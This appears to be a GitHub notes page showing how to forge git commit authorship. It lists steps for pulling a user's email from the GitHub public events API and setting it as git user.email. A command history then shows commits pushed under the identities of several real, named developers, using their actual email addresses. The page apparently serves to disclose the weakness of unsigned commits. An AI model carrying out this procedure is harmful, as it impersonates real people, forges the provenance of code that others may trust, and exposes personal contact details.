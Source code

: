 https://github.com/defunkt

https://api.github.com/users/defunkt/events/public

**_Search for Email Attribute_**

chris@ozmm.org

git config --global user.email "chris@ozmm.org"

**_write file,  git add, git commit, git push_**

--

Process of Exploitation:
-----------------------------------

1. Setup new github repository.
2. Find someone's account username you'd like to commit code as.
3. Use the github API to reveal the email address associated with their account.
4. Set the git user.email attribute to email address of the account you wish to impersonate.
5. Write files, code, statements, you name it. Git add them to the repo.
6. Do a git commit, write a commit statement.
7. Do a git push to the repository.
8. Check github repository, and commit history. Code appears to be committed as the impersonated account.



Command History:


```bash

mkdir gitcommitfraud
cd gitcommitfraud
ls
git config --global user.email "noah.corradin@gmail.com"
ls
git init
touch commitFraudExample.md
vim commitFraudExample.md
git remote add origin git@github.com:f47h3r/gitfraud.git
git push -u origin master
git commit -a
git add .
git commit -a
git push -u origin master
git config --global user.email "royal.r4stl1n@gmail.com"
ls
touch r4stl1n-commiter.md
vim r4stl1n-commiter.md
git add .
git commit -a
git push
git config --global user.email "torvalds@linux-foundation.org"
vim linus-commit.md
git add .
git commit -a
git push
git config --global user.email "hd_moore@rapid7.com"
vim hd_wuz_here.txt
git add .
git commit -a
git push
git config --global user.email "chris@ozmm.org"
vim defunkt_wuz_here.md
git add .
git commit -a
```